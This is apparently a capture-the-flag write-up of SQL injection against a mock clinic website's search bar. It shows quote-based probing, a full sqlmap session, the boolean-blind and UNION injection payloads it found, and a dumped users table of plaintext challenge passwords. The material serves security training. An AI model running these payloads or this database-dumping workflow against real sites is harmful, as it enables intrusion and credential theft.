

# Web App Exploitation - SQL Injection

## Basic Information Gathering

We can see on the front page there is a search bar. We can try different generalized searches to see what we can find. Originally I tried searching for just a space character, this worked for finding all users. This did not help us solve for the hidden values like passwords in the database.



The next thing we need to do is to test if the search bar is vulnerable to SQL injection. We can try to search for a single quote and see what happens. We can see that the page is not vulnerable with that character. We can also try a double quote.

With the double quote we get an intresting response.

```bash
SQLITE_ERROR: unrecognized token: """
```

This means that the search bar is vulnerable to SQL injection, and it is using an SQLite database. Luckily, there is a tool that we can utlize to help us dump this databse.

```bash
sqlmap --wizard
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:03:07 /2022-10-10/

[02:03:07] [INFO] starting wizard interface
Please enter full target URL (-u): https://38ac944da2f0e2870064b39b5bbb033c-metro-clinic.web.cityinthe.cloud/
POST data (--data) [Enter for None]: q
[02:03:11] [WARNING] no GET and/or POST parameter(s) found for testing (e.g. GET parameter 'id' in 'http://www.site.com/vuln.php?id=1'). Will search for forms
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 3
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Intermediate
[3] All
> 3

sqlmap is running, please wait..

[1/1] Form:
GET https://38ac944da2f0e2870064b39b5bbb033c-metro-clinic.web.cityinthe.cloud/professionals.html?q=Enter A Name...
do you want to test this form? [Y/n/q]
> Y
Edit GET data [default: q=Enter A Name...]: q=Enter A Name...
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
GET parameter 'q' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 185 HTTP(s) requests:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: q=-3964" OR 5210=5210-- KyAg

    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: q=Enter A Name..." UNION ALL SELECT 2216,CHAR(113,122,98,122,113)||CHAR(71,75,85,116,113,76,77,71,70,109,90,101,121,106,66,106,106,89,111,86,109,121,77,103,88,119,72,78,119,88,122,97,75,106,121,102,81,73,84,66)||CHAR(113,113,107,106,113)-- Kegx
---
do you want to exploit this SQL injection? [Y/n] Y
web application technology: Nginx, Express
back-end DBMS: SQLite
banner: '3.28.0'
current user is DBA: True
Database: <current>
Table: users
[11 entries]
+-----------------+---------------+---------------+-------------+
| name            | type          | password      | username    |
+-----------------+---------------+---------------+-------------+
| Hugh Garfield   | Dentist       | access        | hgarfield15 |
| Tracy Gill      | Orthopedist   | starwars123   | tgill51     |
| Katie Cain      | Neurologist   | password12345 | kcain02     |
| Mike Torres     | Pediatrician  | SKY-LUVC-3098 | mtorres33   |
| Allan Ellis     | Pediatrician  | corvette7     | aellis47    |
| Kim Jenkins     | Psychiatrist  | greyblob      | kjenkins21  |
| Kristin Holmes  | Family Doctor | letmein       | kholmes38   |
| John Johnson    | Dentist       | rootcanal     | jjohnson87  |
| Jessica Collins | Pediatrician  | asdfg123      | jcollins71  |
| Keith Fletcher  | Pediatrician  | batman1       | kfletcher53 |
| Jane Stanley    | Dermatologist | sunshine      | jstanely62  |
+-----------------+---------------+---------------+-------------+
```
